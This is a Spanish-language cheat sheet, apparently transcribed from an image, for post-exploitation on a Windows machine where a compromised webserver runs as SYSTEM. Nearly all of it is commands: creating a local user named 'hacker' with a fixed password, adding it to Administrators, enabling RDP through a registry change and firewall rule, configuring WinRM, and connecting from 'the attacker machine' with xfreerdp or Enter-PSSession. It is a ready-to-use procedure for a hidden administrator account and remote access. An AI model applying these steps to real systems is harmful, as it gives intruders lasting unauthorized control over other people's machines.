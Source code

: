 **Elevación de privilegios y creación de usuario administrador en Windows con SYSTEM**

---

### 1. Verificación del contexto SYSTEM

* Webserver corre como SYSTEM (máximo privilegio local).
* Shell con privilegios SYSTEM o ejecución de comandos con esos permisos.

---

### 2. Crear nuevo usuario local

Ejecutar en shell o desde webshell con comandos:

```cmd
net user hacker P@ssw0rd123! /add
```

* `hacker`: nombre de usuario nuevo.
* `P@ssw0rd123!`: contraseña segura (modificar según criterio).

---

### 3. Agregar usuario a grupo "Administrators"

```cmd
net localgroup administrators hacker /add
```

* Permite al usuario `hacker` permisos de administrador local.

---

### 4. Verificar usuario y grupo

```cmd
net user hacker
net localgroup administrators
```

---

### 5. Habilitar RDP (si es necesario)

```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

* Permite conexiones RDP.

---

### 6. Abrir puerto RDP en firewall (puerto 3389)

```powershell
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

---

### 7. Conexión RDP

* Desde máquina atacante, iniciar sesión RDP con usuario y contraseña creados.
* Comando para conexión:

```bash
xfreerdp /u:hacker /p:P@ssw0rd123! /v:<IP-Windows-VM>
```

---

### 8. Alternativa: Usar WinRM para conexión remota PowerShell

* Configurar WinRM si no está habilitado:

```powershell
winrm quickconfig -q
winrm set winrm/config/winrs @{MaxMemoryPerShellMB="512"}
winrm set winrm/config @{MaxTimeoutms="1800000"}
```

* Desde atacante, conectar con `winrs` o `Enter-PSSession` (PowerShell Remoting):

```powershell
Enter-PSSession -ComputerName <IP> -Credential hacker
```

---

### 9. Seguridad y limpieza

* Después de la sesión, eliminar usuario si es necesario:

```cmd
net user hacker /delete
```

---
